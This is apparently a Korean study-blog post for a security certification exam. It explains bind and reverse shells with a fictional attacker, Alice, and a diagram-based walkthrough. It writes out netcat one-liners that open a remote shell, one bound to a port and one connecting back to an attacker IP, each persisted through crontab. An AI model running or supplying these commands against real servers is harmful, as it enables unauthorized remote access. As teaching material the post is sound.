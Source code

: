 ```yaml
---

layout: single
title: 바인드 쉘(Bind Shell), 리버스 쉘(Reverse Shell)   
category: computer
tag: [보안, security, 정보보안기사]
published: true
 
---
```


## Outline
- 바인드 쉘과 리버스쉘의 쉘 획득 원리 설명
- 리버스 쉘이 성공하게 되는 서버의 취약 설정 설명
- 바인드 쉘과 리버스 쉘을 이용한 쉘 권한 획득 실습

## 바인드 쉘 (Bind Shell)

클라이언트/공격자가 서버에 접속하여 서버의 쉘을 획득하는 방식


![Pasted image 20230509205411.png]({{site.url}}/_images/2023-05-14-01/Pasted%20image%2020230509205411.png)

1. Alice는 서버 쉘 획득을 위해 사전에 서버에 접속하여 **nc -lvp 1234 -e /bin/bash** 명령을 **crontab(서버스케줄러)**\에 등록하여 1234 포트를 listen 상태로 유지한다.
2. 이후 Alice는 언제든지 Bob의 서버에 1234포트로 원격 접속 할 수 있다.    
![screenshot 1.png](/_images/2023-05-14-01/screenshot%201.png)

## 리버스 쉘 (Reverse Shell)

타겟 서버가 클라이언트/공격자로 접속해 클라이언트가 서버의 쉘을 획득하는 방식
일반적으로 **서버방화벽(iptables)** 의 인바운드 정책의 경우 공개 서비스에 대해서만 화이트리스트 방식으로 엄격히 관리하지만 아웃바운드 정책의 경우 비교적 느슨하게 관리하는 취약점을 노린 공격이다.

![Pasted image 20230509220225.png](/_images/2023-05-14-01/Pasted%20image%2020230509220225.png)

1. Alice는 기존 바인드 쉘(Bind Shell)을 이용한 공격에 실패하고 그 원인을 방화벽 설치로 추측 하여 리버스 쉘(Reverse Shell)공격을 시도 한다.
2. Alice는 사전에 서버에 접속하여 자신의 PC에 접속을 시도하여 쉘(/bin/shell)을 실행하는 명령 **nc -e /bin/bash 192.168.0.106** 을 **crontab(서버스케줄러)** 에 등록한다.
3. 이후 Alice는 자신의 PC에 1234포트를 listen상태로 놓고(**nc -lp 1234**) 서버의 접속요청을 기다린다.
4. 서버요청이 연결되면 서버의 쉘 사용이 가능하다.    
![screenshot 2.png](/_images/2023-05-14-01/screenshot%202.png)

## connection documents
- 